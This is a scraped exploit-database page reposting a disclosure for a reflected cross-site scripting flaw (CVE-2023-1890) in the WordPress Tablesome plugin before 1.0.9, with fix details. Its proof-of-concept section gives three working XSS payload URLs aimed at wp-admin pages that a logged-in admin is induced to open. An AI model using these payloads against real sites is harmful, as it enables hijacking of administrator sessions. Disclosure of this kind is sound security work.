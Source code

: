 ```yaml
---
title: WordPress Tablesome Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173727&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-26
fetch_date: 2025-10-04T11:51:24.104041
---
```


# WordPress Tablesome Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Tablesome Cross Site Scripting CVE-2023-1890

2023-07-25 | CVSS 6.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173727
Tittle:
WordPress Plugin Tablesome < 1.0.9 - Reflected XSS

References:
CVE-2023-1890

Author:
Taurus Omar

Description:
The plugin does not escape various generated URLs, before outputting them in attributes when some notices are displayed, leading to Reflected Cross-Site Scripting

Affects Plugins:
Tablesome - Fixed in version 1.0.9

Proof of Concept:
Make a logged in admin open one of the URL below when the feature/tracking notice has not been dismissed yet

https://example.com/wp-admin/edit.php?post_type=tablesome_cpt&a%22%3E%27%3E%3Cdetails%2Fopen%2Fontoggle%3Dconfirm%28%27XSS%27%29%3E
https://example.com/wp-admin/edit.php?post_type=tablesome_cpt&tablesome_feature_notice_dismissed=1&</script><script>alert(/XSS/)</script>
https://example.com/wp-admin/edit.php?post_type=tablesome_cpt&can_track_tablesome_events=1&</script><script>alert(/XSS/)</script>

Classification:
Type XSS
OWASP top 10 A7: Cross-Site Scripting (XSS)
CWE-79

wpScan:
https://wpscan.com/vulnerability/8ef64490-30cd-4e07-9b7c-64f551944f3d
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
